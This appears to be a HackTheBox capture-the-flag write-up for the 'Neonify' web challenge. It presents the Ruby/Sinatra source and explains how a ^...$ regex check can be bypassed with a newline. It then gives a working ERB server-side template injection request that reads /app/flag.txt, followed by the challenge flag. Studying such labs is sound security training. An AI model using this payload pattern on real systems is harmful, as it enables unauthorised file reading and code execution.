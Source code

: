 ```yaml
---
Category: Web
Difficulty: Easy
Platform: HackTheBox
Retired: false
Status: 3. Complete
Tags: ERB, SSTI, evasion, regex, ruby
---
```

>[!quote]
> *It's time for a shiny new reveal for the first-ever text neonifier. Come test out our brand new website and make any text glow like a lo-fi neon tube!*


# Set up

- **Dockerfile**
    
    ```bash
    FROM ruby:2.7.5-alpine3.15
    
    # Install supervisor
    RUN apk add --update --no-cache supervisor
    
    # Setup user
    RUN adduser -D -u 1000 -g 1000 -s /bin/sh www
    
    # Copy challenge files
    RUN mkdir /app
    COPY challenge/ /app
    COPY config/supervisord.conf /etc/supervisord.conf
    
    # Install dependencies
    WORKDIR /app
    RUN bundle install
    RUN gem install shotgun
    
    # Expose the app port
    EXPOSE 1337
    
    # Start supervisord
    ENTRYPOINT ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
    ```
    
- **builder-docker.sh**
    
    ```bash
    docker build -t web_neonify .
    docker run  --name=web_neonify --rm -p1337:1337 -it web_neonify
    ```
    

# Information Gathering

## Screenshots

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396.png)

```
POST / HTTP/1.1
Host: 167.71.139.192:30707
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://167.71.139.192:30707
Connection: close
Referer: http://167.71.139.192:30707/
Upgrade-Insecure-Requests: 1

neon=test
```

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396%201.png)

## Source code

- **config.ru**
    
    ```ruby
    require_relative './config/environment'
    run NeonControllers
    ```
    
- **environment.rb**
    
    ```ruby
    require 'bundler/setup'
    
    APP_ENV = ENV["RACK_ENV"] || "development"
    
    Bundler.require :default, APP_ENV.to_sym
    
    require 'rubygems'
    require 'bundler'
    
    require_rel '../app'
    ```
    
- **index.erb**
    
    ```ruby
    <!DOCTYPE html>
    <html>
    <head>
        <title>Neonify</title>
        <link rel="stylesheet" href="stylesheets/style.css">
        <link rel="icon" type="image/gif" href="/images/gem.gif">
    </head>
    <body>
        <div class="wrapper">
            <h1 class="title">Amazing Neonify Generator</h1>
            <form action="/" method="post">
                <p>Enter Text to Neonify</p><br>
                <input type="text" name="neon" value="">
                <input type="submit" value="Submit">
            </form>
            <h1 class="glow"><%= @neon %></h1>
        </div>
    </body>
    </html>
    ```
    
- **neon.rb**
    
    ```ruby
    class NeonControllers < Sinatra::Base
    
      configure do
        set :views, "app/views"
        set :public_dir, "public"
      end
    
      get '/' do
        @neon = "Glow With The Flow"
        erb :'index'
      end
    
      post '/' do
        if params[:neon] =~ /^[0-9a-z ]+$/i
          @neon = ERB.new(params[:neon]).result(binding)
        else
          @neon = "Malicious Input Detected"
        end
        erb :'index'
      end
    
    end
    ```
    

# The Bug

- The application is vulnerable to SSTI because user controlled input is reflected within templates.
- The regex is misconfigured and can be bypassed using a multi-line input containing new-lines.
    
    [Difference between \A \z and ^ $ in Ruby regular expressions](https://stackoverflow.com/questions/577653/difference-between-a-z-and-in-ruby-regular-expressions)

>[!warning]
> If you're depending on the regular expression for validation, you always want to use `\A` and `\z`. `^` and `$` will only match up **until a newline character**, which means they could use an email like `me@example.com\n<script>dangerous_stuff();</script>` and still have it validate, since the regex only sees everything before the `\n`.


# Exploitation

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396%202.png)

```
POST / HTTP/1.1
Host: 167.71.139.192:30707
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://167.71.139.192:30707
Connection: close
Referer: http://167.71.139.192:30707/
Upgrade-Insecure-Requests: 1

neon=<%25%3d+File.open('/app/flag.txt').read+%25>
7
```

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396%203.png)

# Flag

>[!success]
>`HTB{r3pl4c3m3n7_s3cur1ty}`

